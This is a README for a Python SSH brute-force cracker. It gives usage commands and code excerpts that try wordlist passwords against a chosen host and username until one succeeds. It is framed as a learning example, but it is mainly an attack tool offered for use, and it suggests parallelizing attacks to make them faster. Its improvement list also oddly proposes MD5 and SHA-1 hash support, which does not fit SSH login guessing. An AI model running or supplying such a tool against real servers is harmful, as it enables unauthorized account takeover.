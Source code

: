 # SSH Brute-force Cracker

## Introduction

This is a basic SSH brute-force cracker script written in Python. The tool attempts to find the correct password for an SSH account by trying a list of passwords. This script is a practical example of how brute-force attacks work and can help you understand concepts related to SSH security and password cracking.

## Features

- **SSH Brute-force Attack**: Attempts to guess the SSH password for a given host and username.
- **Custom Port**: Supports specifying a custom port for the SSH service (default is 22).
- **Password List**: Uses a wordlist of possible passwords to attempt cracking.
- **Real-time Feedback**: Provides feedback on each attempt and reports the success or failure of each password attempt.

## Prerequisites

- Python 3.x installed on your system.
- The `pwn` and `paramiko` libraries for SSH connections and exceptions handling. You can install them using `pip`:
    ```bash
    pip install pwntools paramiko
    ```
- Basic understanding of SSH, brute-force attacks, and command-line operations.

## Usage

To run the SSH brute-force cracker, use the following command:

```bash
python3 ssh_bruteforce_cracker.py <host> <username> [--port <port>]
```
- `<host>`: The IP address or hostname of the target SSH server.
- `<username>`: The username to attempt to authenticate with.
- `--port <port>` (Optional): The port to connect to (default is 22).
## How It Works
1. **Argument Parsing:** 
   - The script uses argparse to handle command-line arguments for the SSH host, username, and optionally the port.

```python
parser = argparse.ArgumentParser(description="SSH Brute-force script")
parser.add_argument("host", type=str, help="The host to connect to")
parser.add_argument("username", type=str, help="The username to use")
parser.add_argument("--port", type=int, default=22, help="The port to connect to (default: 22)")
args = parser.parse_args()
```
2. **Retrieve Arguments:**
   - Extracts the host, username, and port from the command-line arguments.
  ```python
  host = args.host
  username = args.username
  port = args.port
  ```

3. **Start Brute-force Attempt:**
   - Opens the password list file and reads it line by line. For each password, it attempts to establish an SSH connection.
   - If the connection is successful, it reports the valid password and stops further attempts.
  ```python
  try:
    with open(password_list_path, "r") as password_list:
        for password in password_list:
            password = password.strip("\n")
            try:
                print("[{}] Attempting password: '{}'!".format(attempts, password))
                response = ssh(host=host, user=username, password=password, port=port, timeout=1)

                if response.connected():
                    print("[>] Valid password found: '{}'!".format(password))
                    response.close()
                    break
                response.close()
            except paramiko.ssh_exception.AuthenticationException:
                print("[X] Invalid Password")
            attempts += 1

  ```
4. **Exception Handling:**
   - Manages common issues such as missing password list files and general exceptions.
   ```python
    except FileNotFoundError:
     print(f"[!] Password list file not found: {password_list_path}")
    except Exception as e:
     print(f"[!] An error occurred: {str(e)}")
   ```


## Potential Improvements
- Extend the script to support additional hash algorithms like MD5 or SHA-1.
- Implement more efficient techniques or parallel processing to speed up the brute-force attack.
- Include features like progress bars, estimated time, or interactive command-line options.

## Contributing
Feel free to submit issues or pull requests for improvements.

## Contact
For any questions or feedback, you can reach me at **syed4000saad@gmail.com**
